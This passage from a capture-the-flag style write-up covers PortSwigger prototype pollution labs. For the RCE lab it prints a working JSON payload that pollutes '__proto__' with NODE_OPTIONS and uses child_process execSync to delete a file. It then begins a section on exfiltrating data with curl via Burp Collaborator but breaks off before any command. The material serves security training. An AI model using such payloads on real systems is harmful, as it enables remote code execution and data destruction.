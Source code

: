 Afterwards, delete `carlos`.

## Lab 9: RCE via Prototype Pollution

To solve this lab, delete `/home/carlos/morale.txt`. Firstly, privilege escalation allows me to access the admin panel and 'Run jobs':

![](../../.gitbook/assets/portswigger-prototype-writeup-image-22.png)

Clicking this reveals it does some stuff on the backend:

![](../../.gitbook/assets/portswigger-prototype-writeup-image-23.png)

I injected a payload from Hacktricks:

```json
"__proto__": {
    "isAdmin":true,
    "NODE_OPTIONS": "--require /proc/self/environ", "env": { "
        EVIL":"console.log(require('child_process').execSync('rm /home/carlos/morale.txt').toString())//"}
    }
```

After injecting this and running the jobs, it solved the lab.

## Lab 10: Exfiltrating Data

This lab requires us to exfiltrate and submit the data within the `/home/carlos` directory. There's a file containing some flag, but I don't know the actual flag. This lab gives us administrative access with the run jobs admin panel.

This involves using Burp Collaborator to send the data out. I found that using `curl` can exfiltrate data:
